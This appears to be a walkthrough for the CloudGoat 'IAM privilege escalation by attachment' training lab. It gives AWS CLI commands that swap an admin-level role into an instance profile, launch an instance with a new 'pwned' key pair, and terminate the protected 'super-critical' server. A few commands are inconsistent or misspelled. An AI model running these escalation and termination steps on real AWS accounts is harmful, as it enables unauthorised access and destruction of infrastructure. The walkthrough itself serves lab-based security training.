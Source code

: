 # IAM Privilege Escalation by Attachement

Goal: Delete the EC2 instance "cg-super-critical-security-server."

# Walk Through

## Login 
Login to the user
```
aws configure --profile kerigan
aws sts get-caller-identity --profile kerigan
```
## Identify exisiting ec2 instance role 
```
aws ec2 describe-instances --output json --region us-east-1 --profile kerigan --filters Name=instance-state-name,Values=running


aws iam list-roles --profile kerigan > roles.json

aws iam list-instance-profiles --profile kerigan
Get instance profile name and role to attach to instance profile
```
## Attach admin managed policy on ec2 instance role
```
aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgiddbdjjsvchf --role-name cg-ec2-meek-role-iam_privesc_by_attachment_cgiddbdjjsvchf --profile kerigan

aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgiddbdjjsvchf --role-name cg-ec2-mighty-role-iam_privesc_by_attachment_cgiddbdjjsvchf --profile kerigan
```
## Create a new key pair
```
aws ec2 create-key-pair --key-name pwned --profile kerigan --query 'KeyMaterial' --output text > pwned.pem
chmod 400 keypair.pem

aws ec2 describe-subnets --profile kerigan
aws ec2 descirbe-security-groups --profile kerigan
aws ec2 run-instances --image-id ami-0a313d6098716f372  --instance-type t2.micro --iam-instance-profile Name=cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgiddbdjjsvchf --key-name pwned --profile kerigan --subnet-id subnet-08b3514ec1dea0381 --security-group-ids sg-01735ee184560070b


ssh -i keypair.pem ubuntu@<ip of instance>

```
## Install aws cli tools and terminate instance of super server
```
sudo apt-get update
sudo apt-get install awscli
aws ec2 describe-instances --region us-east-1 --filters Name=instance-state-name,Values=running

aws ec2 terminate-instances --instance-ids i-03b0e378a59956c35 --region us-east-1
```
## References
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_attachment/README.md